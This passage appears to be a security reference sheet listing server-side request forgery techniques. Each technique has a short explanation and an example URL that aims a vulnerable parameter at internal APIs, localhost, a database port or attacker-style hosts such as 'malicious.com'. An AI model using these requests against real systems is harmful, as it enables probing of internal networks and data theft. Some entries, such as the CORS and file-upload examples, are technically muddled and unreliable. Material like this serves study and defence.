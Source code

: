```text
```
- ### Using Proxy Services
Attackers may utilize proxy services to obfuscate their requests, making it harder to trace the origin. For instance:
```text
http://example.com/ssrf.php?url=http://proxy-service.com/redirect?target=http://internal-service.local
```
- ### Targeting Internal APIs
Many applications expose internal APIs that can be accessed via SSRF. An example request could be:
```text
http://example.com/ssrf.php?url=http://internal-api.local/api/v1/data
```
- ### Exploiting Misconfigured Services
Misconfigured services can be targeted to extract sensitive information. For example, accessing a misconfigured database service:
```text
http://example.com/ssrf.php?url=http://db-service.local:5432
```
- ### Timing Attacks
By measuring response times, attackers can infer information about internal services. For example, sending requests with varying payloads to gauge response delays:
```text
http://example.com/ssrf.php?url=http://internal-service.local?param=1
```
These techniques emphasize the need for comprehensive security practices, including network segmentation and strict access controls, to defend against SSRF attacks.
- ### Using Response Manipulation
Attackers can manipulate server responses to extract information. For instance, they might craft a request that triggers an error revealing sensitive data:
```text
http://example.com/ssrf.php?url=http://internal-service.local/api?error=true
```
- ### Leveraging Webhooks
By exploiting webhooks, attackers can send crafted requests to internal services, potentially leading to data exfiltration. An example could be:
```text
http://example.com/ssrf.php?url=http://internal-webhook.local/notify
```
- ### Exploiting CORS Misconfigurations
If Cross-Origin Resource Sharing (CORS) is misconfigured, attackers can leverage SSRF to access resources from different origins. For example:
```text
http://example.com/ssrf.php?url=http://malicious.com/cors
```
- ### Using Subdomain Takeover
Attackers can exploit subdomain takeover vulnerabilities to redirect SSRF requests to their controlled domains, potentially capturing sensitive data:
```text
http://example.com/ssrf.php?url=http://subdomain.vulnerable.com
```
- ### Accessing Local Services
Attackers can target local services that are not intended to be exposed externally, such as:
```text
http://example.com/ssrf.php?url=http://localhost:8080
```
- ### Exploiting File Uploads
If an application allows file uploads, attackers can upload a malicious file that triggers SSRF when processed. For example:
```text
http://example.com/upload.php?file=malicious_file
```
- ### Using HTTP Redirects
Attackers can exploit HTTP redirects to access internal resources indirectly. For instance:
```text
http://example.com/ssrf.php?url=http://redirect.local
```